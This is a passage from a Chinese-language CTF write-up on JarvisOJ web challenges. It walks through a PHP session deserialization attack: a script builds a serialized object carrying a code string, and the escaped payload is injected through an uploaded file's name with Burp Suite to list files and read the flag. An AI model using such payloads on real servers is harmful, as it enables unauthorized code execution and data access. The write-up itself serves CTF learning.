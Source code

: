 &emsp;&emsp;然后构造payload：

```PHP
<?php
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz = "print_r(scandir(dirname(__FILE__)));";
}
echo(serialize(new OowoO()));
?>
```

&emsp;&emsp;生成payload：`O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}`

&emsp;&emsp;但是要在双引号前加上反斜杠，防止转义错误；还要在O前面加上“|”：`|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}`

&emsp;&emsp;利用上面的上传界面随意上传一个文件，然后使用BP截包，把文件名改为payload即可得到flag文件名“Here_1s_7he_fl4g_buT_You_Cannot_see.php”。

&emsp;&emsp;然后再次把“_FILE_”改成："/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php"即可获得flag。

## Chopper

&emsp;&emsp;首先看到的是一把菜刀：

![](/img/JarvisOJ-WEB-2/WEB21.png)
